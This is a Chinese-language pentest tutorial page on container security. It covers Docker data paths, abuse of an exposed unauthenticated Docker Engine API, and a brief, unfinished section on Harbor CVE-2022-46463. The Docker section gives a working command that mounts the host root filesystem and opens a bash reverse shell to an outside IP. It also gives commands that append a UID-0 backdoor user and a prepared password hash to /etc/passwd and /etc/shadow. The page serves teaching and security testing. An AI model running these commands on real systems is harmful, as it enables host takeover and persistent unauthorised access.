

# 容器安全



## 在 Ubuntu 安装 Docker

在 Ubuntu 22.04 安装 Docker，

<https://docs.docker.com/engine/install/ubuntu/>

## 基本语法

```bash
$ docker info

...
 Storage Driver: overlay2
 Docker Root Dir: /var/lib/docker
...
```

以下列出了不同操作系统下 Docker 默认的存储位置，但请注意，这些位置可以通过配置更改：

* **Ubuntu:** `/var/lib/docker/`
  * **备注:** 这是 Ubuntu 系统上 Docker 镜像、容器层、数据卷和网络配置的默认存储位置。 渗透测试人员需要关注此目录下的文件，例如 `image/` (镜像层)， `containers/` (容器配置)， `volumes/` (数据卷) 等， 检查是否存在安全隐患.
* **Fedora:** `/var/lib/docker/`
  * **备注:** 与 Ubuntu 类似，此目录包含了 Fedora 系统中所有 Docker 相关的数据。需要注意的是，Fedora 可能使用 SELinux 进行强制访问控制，这可能会影响渗透测试过程中对文件的访问权限。
* **Debian:** `/var/lib/docker/`
  * **备注:** Debian 系统的 Docker 存储位置与 Ubuntu 基本相同。渗透测试人员应注意检查 Docker 配置文件的权限，例如 `/etc/docker/daemon.json`，防止恶意配置导致安全问题。
* **Windows:** `C:\ProgramData\DockerDesktop`
  * **备注:** 在 Windows 系统上，Docker Desktop 使用 Hyper-V 虚拟机来运行 Docker 守护进程。 实际的 Docker 数据存储在虚拟机的磁盘文件中。  渗透测试人员可以使用工具 (例如 PowerShell) 访问该目录，并分析虚拟机磁盘镜像。
* **MacOS:** `~/Library/Containers/com.docker.docker/Data/vms/0/~`
  * **备注:**  与 Windows 类似，Docker Desktop for Mac 也使用虚拟机。此路径指向虚拟机内部的 Docker 数据目录。 渗透测试人员可能需要借助特定的工具和技术来访问虚拟机内部的文件系统，例如使用 `docker exec` 命令进入容器，或者使用虚拟机管理工具访问虚拟磁盘。

Docker 根目录的内部结构，`/var/lib/docker` 目录中保存着各种信息，例如：容器数据、卷、构建文件、网络文件和集群数据。

```bash
$ sudo ls -al /var/lib/docker
total 52
drwx--x--- 12 root root 4096 Jul 30 08:03 .
drwxr-xr-x 50 root root 4096 Jul 23 10:45 ..
drwx--x--x  5 root root 4096 Jul 29 21:00 buildkit
drwx--x---  5 root root 4096 Jul 30 08:03 containers
-rw-------  1 root root   36 Jul 21 22:35 engine-id
drwx------  3 root root 4096 Jul 21 22:35 image
drwxr-x---  3 root root 4096 Jul 21 22:35 network
drwx--x--- 58 root root 4096 Jul 30 08:03 overlay2
drwx------  3 root root 4096 Jul 21 22:35 plugins
drwx------  2 root root 4096 Jul 30 08:03 runtimes
drwx------  2 root root 4096 Jul 21 22:35 swarm
drwx------  2 root root 4096 Jul 30 08:03 tmp
drwx-----x  2 root root 4096 Jul 30 08:03 volumes
```

## Docker Engine API 未授权访问

Docker Engine API 是 Docker 官方提供的 **RESTful API** 接口，用于与 Docker 守护进程（Docker Daemon）进行交互。该 API 支持通过 HTTP/HTTPS 协议对容器、镜像、网络、卷等核心资源进行全生命周期管理。

Docker 守护进程默认通过 Unix Domain Socket (`unix:///var/run/docker.sock`) 进行本地进程间通信（IPC）。但如果配置不当，例如将守护进程绑定到 0.0.0.0，则会暴露在网络上。如果没有设置访问权限控制，如未启用 TLS 认证或防火墙限制，攻击者就可以直接通过网络访问该 API，无需认证即可执行各种 Docker 操作命令。由于 Docker 默认以 root 权限运行，攻击者可利用其远程创建特权容器，进而控制宿主机。

### 环境搭建

默认情况下，Docker 守护进程通过 Unix 套接字监听本地客户端的连接请求。可以通过配置 Docker 同时监听 IP 地址、端口以及 Unix 套接字，使其能够接受来自远程客户端的请求。
<https://docs.docker.com/engine/daemon/remote-access/>

```bash
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

### 漏洞利用

#### 宿主机文件系统挂载（`-v /:/mnt`）

```bash
docker -H tcp://x.x.x.x:2375 run --rm -v /:/mnt ubuntu chroot /mnt /bin/bash -c "bash -i >& /dev/tcp/192.168.1.130/4444 0>&1"
```

由于我们将宿主机的根目录挂载到容器中，因此可以从容器内直接修改宿主机的 `/etc/passwd` 和 `/etc/shadow` 文件，添加自定义用户或修改密码，进而通过 SSH 登录宿主机。

```bash
echo 'hacker:x:0:0:hacker,,,:/home/hacker:/bin/bash' >> /etc/passwd
```

| 字段 | 说明 |
|---|----|
| `hacker` | **用户名**：系统登录时使用的账户名称。 |
| `x` | **密码占位符**：实际密码加密后存储在 `/etc/shadow` 文件中。 |
| `0` | **用户ID (UID)**：唯一标识用户的数字，用于权限控制。 UID 0 是 root 的标识 |
| `0` | **用户组ID (GID)**：用户所属主组的唯一标识。 |
| `hacker,,,` | **用户描述信息**：可包含全名、联系方式等（此处为空）。 |
| `/home/hacker` | **家目录路径**：用户专属文件存储目录，默认位于 `/home/` 下。 |
| `/bin/bash` | **默认 Shell**：用户登录后启动的命令行解释器（此处为 Bash）。 |

密码哈希值（`$6` 表示 SHA-512 算法）,明文密码为`dev`。

```bash
echo 'hacker:$6$gB/z0wS0$BZ.Zoj6QsXn4uwKUi6/zZm0ga/IJf7YHVneEXut0I06.ZywgtKcB79Mj.EAymXubo8tuos9Fr.aFCWs8PNH6T1:17096:0:99999:7:::'>> /etc/shadow
```

#### 参考资料

* <https://github.com/0xchang/DockerApiRCE>
* <https://www.trendmicro.com/en_hk/research/24/j/attackers-target-exposed-docker-remote-api-servers-with-perfctl-.html>
* <https://medium.com/@cloudsectraining/abusing-docker-remote-api-bef6a099cfd3>

## Habor 未授权访问漏洞（CVE-2022-46463）

Harbor 是一个开源的 **企业级容器镜像仓库**，由 VMware 公司（现为 Broadcom 旗下）开发并捐赠给 CNCF（云原生计算基金会）。它提供了安全、高效的 Docker 镜像存储和管理功能，适用于企业级 DevOps 和云原生环境。

Harbor 采用 微服务架构，主要组件包括：

Core：核心服务，处理 API 请求。
Registry：存储 Docker 镜像（基于 Distribution）。
Database（PostgreSQL）：存储用户、项目、权限等元数据。
Redis：缓存会话和临时数据。
Job Service：处理异步任务（如镜像复制、垃圾回收）。
Portal：Web UI 管理界面。
Notary（可选）：镜像签名验证。
Trivy/Clair（可选）：漏洞扫描。

由于 Harbor 的访问控制缺陷，未认证的攻击者可通过该漏洞获取公开和私有镜像仓库的全部信息，对私有仓库的未授权访问可能泄露专有应用代码、容器镜像中硬编码的凭据或令牌，还可能暴露过时镜像中的安全漏洞。

### 环境搭建

```bash

```

### 漏洞利用

Docker 镜像导出

<https://docs.docker.com/reference/cli/docker/image/save/>

docker inspect

检查 `.tar` 文件结构, tar -tf

mkdir ubuntu && tar -xf ubuntu.tar -C ubuntu

### 参考资料

* <https://github.com/404tk/CVE-2022-46463>
* <https://mp.weixin.qq.com/s/21V_TACA-UEeKdM2_D-0oQ>
* <https://blog.hans362.cn/post/sjtu-ctf-2023-writeup/#exsecurity_flag_r>
